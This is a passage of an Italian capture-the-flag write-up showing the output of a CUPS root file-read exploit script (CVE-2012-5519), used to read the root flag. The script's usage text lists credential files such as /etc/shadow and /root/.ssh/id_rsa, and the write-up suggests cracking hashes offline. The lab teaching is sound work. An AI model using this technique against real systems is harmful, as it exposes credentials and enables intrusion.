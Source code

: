 ```shell
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] ./cups-root-file-read.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>] /root/root.txt
[+] contents of /root/root.txt:
<SNIP>
```

Abbiamo ottenuto la root flag.

## Adesso?

Possiamo fare una privilege esclation leggendo la bash history, gli hash delle password per poi crackarli offline, e molte altre possibilità. per trovarle velocemente potremmo utilizzare **linpeas.sh**

## Cosa abbiamo imparato

Attraverso questa box siamo migliorati nei seguenti campi:
1. Enumerazione SNMP
2. Abuso di stampanti sulla network
3. CUPS administration exploitation
